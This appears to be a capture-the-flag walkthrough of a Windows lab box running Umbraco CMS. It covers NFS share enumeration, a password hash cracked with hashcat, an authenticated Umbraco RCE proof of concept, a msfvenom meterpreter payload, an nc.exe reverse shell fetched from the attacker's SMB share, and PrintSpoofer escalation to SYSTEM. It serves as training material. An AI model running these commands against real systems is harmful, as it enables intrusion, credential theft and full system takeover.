




## Port Scan
1. All TCP Port Scan
```
sudo nmap -Pn 10.129.230.172 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-03 02:14 EST
Warning: 10.129.230.172 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.230.172
Host is up (0.29s latency).
Not shown: 39560 filtered tcp ports (no-response), 25961 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
```
2. All UDP Port scan
```
sudo nmap -Pn 10.129.230.172 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Nmap scan report for 10.129.230.172
Host is up (0.10s latency).
Not shown: 63837 open|filtered udp ports (no-response), 1697 closed udp ports (port-unreach)
PORT    STATE SERVICE
111/udp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 39.67 seconds
```
3. All script and version scan
```
# Nmap 7.95 scan initiated Tue Feb  3 02:18:44 2026 as: /usr/lib/nmap/nmap -Pn -sCV -p21,80,111,135,139,445,2049,5985,49665,49666,49667,49678,49679,49680 --min-rate 20000 -oN nmap/scriptVersionScan.nmap 10.129.230.172
Nmap scan report for 10.129.230.172
Host is up (2.0s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|_  100005  1,2,3       2049/udp6  mountd
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 59m58s
| smb2-time: 
|   date: 2026-02-03T08:20:00
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```
- Might not be a DC
## Web Application
1. There is a different web application on `http://10.129.230.172/umbraco`
	
2. Let's fuzz for directories
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.230.172/FUZZ -ic -o root_dir_fuzz.txt -t 80 
```
- Nothing interesting
3. There is a login form. Test for SQL Injection
```
sqlmap -u http://10.129.230.172/umbraco/backoffice/UmbracoApi/Authentication/PostLogin --level=5 --risk=3 --data '{"username":"test","password":"test"}'
```
- No result
## Uncredentialed Enumeration
1. We can log into FTP
```
ftp 10.129.230.172
```
Output:
```
Connected to 10.129.230.172.
220 Microsoft FTP Service
Name (10.129.230.172:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```
Can't read anything tho
```
ftp> dir
229 Entering Extended Passive Mode (|||49688|)
150 Opening ASCII mode data connection.
226 Transfer complete.
```
2. SMB Listing
```
smbclient -N -L \\\\10.129.230.172 
session setup failed: NT_STATUS_ACCESS_DENIED
```
3. Enum4linux
```
enum4linux 10.129.230.172 -A  -C | tee enum4linux.txt
```
Output:
```
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Feb  3 02:43:36 2026                           

 =========================================( Target Information )=========================================                                 

Target ........... 10.129.230.172
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 10.129.230.172 )===========================


[E] Can't find workgroup/domain                                      


 ===============================( Nbtstat Information for 10.129.230.172 )===============================

Looking up status of 10.129.230.172                                                                                                       
No reply from 10.129.230.172                                         

 ==================================( Session Check on 10.129.230.172 )==================================


[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.

```
4. RPC
```
rpcclient -N -U "" 10.129.230.172
```
- Nothing
5. NFS
```
sudo nmap -Pn 10.129.230.172 -p 111,2049 --script=nfs*
```
Output:
```
PORT     STATE SERVICE
111/tcp  open  rpcbind
| nfs-showmount: 
|_  /site_backups 
| nfs-ls: Volume /site_backups
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID         GID         SIZE   TIME                 FILENAME
| rwx------   4294967294  4294967294  4096   2020-02-23T18:35:48  .
| ??????????  ?           ?           ?      ?                    ..
| rwx------   4294967294  4294967294  64     2020-02-20T17:16:39  App_Browsers
| rwx------   4294967294  4294967294  4096   2020-02-20T17:17:19  App_Data
| rwx------   4294967294  4294967294  4096   2020-02-20T17:16:40  App_Plugins
| rwx------   4294967294  4294967294  8192   2020-02-20T17:16:42  Config
| rwx------   4294967294  4294967294  64     2020-02-20T17:16:40  aspnet_client
| rwx------   4294967294  4294967294  49152  2020-02-20T17:16:42  bin
| rwx------   4294967294  4294967294  64     2020-02-20T17:16:42  css
| rwx------   4294967294  4294967294  152    2018-11-01T17:06:44  default.aspx
|_
| nfs-statfs: 
|   Filesystem     1K-blocks   Used        Available   Use%  Maxfilesize  Maxlink
|_  /site_backups  24827900.0  11814116.0  13013784.0  48%   16.0T        1023
2049/tcp open  nfs

```
6. Mount share onto the server
```sh
sudo mount -t nfs 10.129.230.172:/site_backups ./target-nfs/ -o nolock
```
Output:
```
ls
App_Browsers  App_Plugins    bin     css           Global.asax  scripts  Umbraco_Client  Web.config
App_Data      aspnet_client  Config  default.aspx  Media        Umbraco  Views
```
7. Perform cred hunting on the file share
```xml
<add key="umbracoConfigurationStatus" value="7.12.4" />
<SNIP>
        <connectionStrings>
                <remove name="umbracoDbDSN" />
                <add name="umbracoDbDSN" connectionString="Data Source=|DataDirectory|\Umbraco.sdf;Flush Interval=1;" providerName="System
.Data.SqlServerCe.4.0" />
                <!-- Important: If you're upgrading Umbraco, do not clear the connection string / provider name during your web.config mer
ge. -->
        </connectionStrings>

        <system.net>
                <mailSettings>
      <smtp from="noreply@example.com">
                                <network host="127.0.0.1" userName="username" password="password" />
                        </smtp>
                </mailSettings>
        </system.net>

```
- I can't find anything.
8. After reading the docs, I keep seeing the mention of  `.sdf` files. And sure enough, there is a file like this `/site_backups/App_Data/Umbraco.sdf`
9. I tried to use [LinQPad](https://www.linqpad.net/Download.aspx) to read the file, but couldn't. Welp, I just use `strings` on the file then. 
```
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

```
We got these hashes
```
admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa
smith@htb.local jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts=
8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA=
```
10. We can use hashcat to crack
```sh
hashcat -a 0 -m 100 b8be16afba8c314ad33d812f22a04991b90e2aaa /usr/share/wordlists/rockyou.txt
```
Output:
```
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
```
11. I try the creds with the SMB
```
netexec smb 10.129.230.172 -u 'htb.local\smith' -p 'baconandcheese' 
netexec smb 10.129.230.172 -u 'htb.local\ssmith' -p 'baconandcheese'
netexec smb 10.129.230.172 -u 'htb.local\admin' -p 'baconandcheese'
```
Output:
```
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [-] htb.local\smith:baconandcheese STATUS_LOGON_FAILURE 
```
FTP
```
hydra -L validUsers  -p baconandcheese ftp://10.129.230.172 -t 16
```
RPC
```
rpcclient -U htb.local/admin%baconandcheese 10.129.230.172
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
rpcclient -U htb.local/ssmith%baconandcheese 10.129.230.172
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
rpcclient -U htb.local/smith%baconandcheese 10.129.230.172
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
Netexec
```
netexec winrm 10.129.230.172 -u 'htb.local\smith' -p 'baconandcheese'  
WINRM       10.129.230.172  5985   REMOTE           [*] Windows 10 / Server 2019 Build 17763 (name:REMOTE) (domain:remote)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.230.172  5985   REMOTE           [-] htb.local\smith:baconandcheese
```
12. I was stuck in the rabbit hole of trying to crack ssmith's password. However, I found an [authenticated RCE POC](https://packetstorm.news/files/id/158712) online.
```
python3 umbracocms_rce2.py -u admin@htb.local -p baconandcheese -i 'http://10.129.230.172' -c "ipconfig"        
```
Output:
```
Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::19b6:d13c:7d7a:2f9e
   Link-local IPv6 Address . . . . . : fe80::19b6:d13c:7d7a:2f9e%12
   IPv4 Address. . . . . . . . . . . : 10.129.230.172
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:acf1%12
                                       10.129.0.1
```
We can make it ping us like this
```
python3 umbracocms_rce2.py -u admin@htb.local -p baconandcheese -i 'http://10.129.230.172' -c "ping" -a "10.10.16.26"
```
13. To get a shell,
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.26 LPORT=9999 -f exe > backupscript.exe
mkdir -p /tmp/smbshare 
cp backupscript.exe /tmp/smbshare
```
Output:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

```
impacket-smbserver share -smb2support /tmp/smbshare
```
Start our listener
```
msfconsole -q
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp 
set lhost 10.10.16.26
set lport 9999
exploit -j  
```
Our payload:
```
python3 umbracocms_rce2.py -u admin@htb.local -p baconandcheese -i 'http://10.129.230.172' -c '\\\\10.10.16.26\\share\\backupscript.exe'
```
Output:
```
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
```
- The user flag is in public
## Shell as DefaultAppPool
1. There is a very interesting privilege enabled
```
PS C:\inetpub\wwwroot\App_Data\Logs> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
- `SeAssignPrimaryTokenPrivilege` and `SeImpersonatePrivilege`
2. Groups Info
```
PS C:\inetpub\wwwroot\App_Data\Logs> whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

```
3. Systeminfo
```
PS C:\inetpub\wwwroot\App_Data\Logs> systeminfo
```
Output:
```
systeminfo                                                                                                                                          
Host Name:                 REMOTE                                                                                                         
OS Name:                   Microsoft Windows Server 2019 Standard                                                                         
OS Version:                10.0.17763 N/A Build 17763                                                                                     
OS Manufacturer:           Microsoft Corporation   
```
4. Try Juicy Potato
Start a listener
```
nc -lvnp 8443
```
Transfer `nc.exe` and `JuicyPotato.exe` to the victim host.
```
cd C:\Windows\Temp
copy \\10.10.16.26\share\nc.exe .
copy \\10.10.16.26\share\JuicyPotato.exe .
copy \\10.10.16.26\share\PrintSpoofer64.exe .
```
To execute the payload,
```
C:\Windows\Temp\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Windows\Temp\nc.exe 10.10.16.26 8443 -e cmd.exe" -t *
```
- Juicy potato failed
5. Try Print Spoofer
```
.\PrintSpoofer64.exe -i -c powershell.exe
```
Output:
```
C:\Windows\Temp>.\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```
- PrintSpoofer succeeded!
## Review
1. Ippsec used SC to escalate privileges

- AllAccess means we can modify it
- Start means we can start the service
2. To query the status of a service,
```
sc.exe query <servicename>
```
Output:

3. Change the binary of the service name
```
sc.exe config <servicename> binpath=<command> 
```
This is seems to be the only one that worked

4. Restart the service
```
sc.exe stop <servicename>
sc.exe start <servicename>
```